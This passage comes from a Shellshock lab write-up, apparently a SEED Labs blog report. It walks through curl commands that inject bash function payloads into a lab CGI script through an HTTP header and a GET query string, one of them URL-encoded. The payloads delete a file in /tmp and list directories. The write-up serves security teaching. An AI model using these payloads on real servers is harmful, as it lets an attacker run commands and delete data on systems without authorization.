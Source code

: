 From the screenshot above, we can see that indeed the vulnerable bash program ran the command and the server created the new file in `/tmp`

___

#### Getting the server to delete the previously created file inside `/tmp`

In order to tell the server to delete the file that was created in `/tmp`, we can craft the following command: `http://www.seedlab-shellshock.com/cgi-bin/vul.cgi`

```bash
curl --header "a: () { dummy;}; echo; /bin/rm -f /tmp/ukadike-2023" www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

![task-2-d](https://github.com/iukadike/blog/assets/58455326/0268ce4e-3c35-4627-93e3-935e439f0a98)

From the screenshot above, we can see that indeed, the vulnerable bash program ran the command, and the server deleted the new file.

___

#### Experimenting with HTTP GET requests

HTTP GET requests attach data to the URL after the "?" symbol. Attaching some data to `http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi` via HTTP GET request shows that the environment variable `QUERY_STRING` is set by the server.

***`http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi?HAHAH`***
![task-2-e](https://github.com/iukadike/blog/assets/58455326/bcea0b28-797e-47ab-a7e4-d12f3577e075)

To verify if we can indeed use this method to carry out an attack, we can craft the following command: `http://www.seedlab-shellshock.com/cgi-bin/vul.cgi`

```bash
curl --get --data "() { dummy;}; echo; /bin/ls" www.seedlab-shellshock.com/cgi-bin/vul.cgi -v
```

![task-2-f](https://github.com/iukadike/blog/assets/58455326/349bdfcb-7500-4e97-bb7b-b74db1251047)

From the screenshot above, we can see that the server responded with an error. The server does not expect to find a whitespace in the GET request data. Because of the presence of these whitespaces, the server throws an HTTP 400 Error (Bad Request).

Does that mean if we encode the whitespace, the attack will then be successful? To verify this, we can craft the following command: `http://www.seedlab-shellshock.com/cgi-bin/vul.cgi`

{% raw %}
```bash
curl --get --data "()%20{%20dummy;};%20echo;%20/bin/ls" www.seedlab-shellshock.com/cgi-bin/vul.cgi -v`
```
{% endraw %}

![task-2-g](https://github.com/iukadike/blog/assets/58455326/2c583bdf-e4da-419e-9a0e-c3b634d23805)
